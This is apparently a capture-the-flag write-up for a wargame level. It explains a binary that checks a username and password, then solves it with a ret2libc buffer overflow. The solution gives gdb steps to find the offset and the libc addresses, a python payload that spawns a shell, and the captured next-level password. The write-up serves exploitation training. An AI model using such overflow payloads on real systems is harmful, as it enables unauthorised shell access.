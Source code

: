 Program behavior:
1. Reads from stdin to a buffer (a_user_name) using `fgets` function;
2. Checks the buffer to be equal with string "dat_wil".
3. Reads from stdin to a buffer (a_user_pass) using `fgets` function;
4. Checks the buffer to be equal with string "admin".

Solution:
Overflow a buffer (a_user_pass) to perform ret2libc attack.

# Launch the debugger
gdb level01
# Run the debugged program
start
# Disassemble main function
disassemble main
`0x080484d8 <+8>:     sub    $0x60,%esp`
`0x0804856d <+157>:   lea    0x1c(%esp),%eax`
# Run the debugged program
start
# Calculate the offset
print/d ($ebp + 4) - ($esp - 0x60 + 0x1c)
`$10 = 80`
# Get address of system function
print/a &system
`$1 = 0xf7e6aed0 <system>`
# Get address of exit function
print/a &exit
`$2 = 0xf7e5eb70 <exit>`
# Get address of "/bin/sh" string
info proc mappings
`0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so`
find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
`0xf7f897ec`
# Quit the debugger
quit
# Initiate ret2libc attack
(python -c 'print "dat_wil\n" + "B" * 80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'; cat) | ./level01
# Check the flag
cat /home/users/level02/.pass
`PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv`
